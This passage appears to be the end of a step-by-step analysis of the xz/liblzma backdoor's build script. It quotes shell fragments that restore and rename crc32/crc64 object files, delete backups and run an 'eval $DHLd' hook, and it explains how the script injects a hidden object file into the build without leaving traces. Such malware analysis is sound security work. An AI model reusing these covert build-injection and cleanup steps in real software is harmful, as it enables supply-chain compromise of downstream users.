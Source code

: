 ```sh
        else
            mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
            mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
        fi
```
- This is the `else` for the crc32 compilation failing. Restore from backups.

```sh
    else
        mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
    fi
```
- This is the else for the crc64 compilation failing. Restore from backup.

```sh
    rm -f liblzma_la-crc64-fast.o || true
```
- End of the `Makefile` section of the script. Delete the backup.

```sh
fi
eval $DHLd
```
- Close the “elif we’re in a Makefile”, one more extension point/debug print, and we’re done! The script has injected the object file into the objects built during make, leaving no trace behind.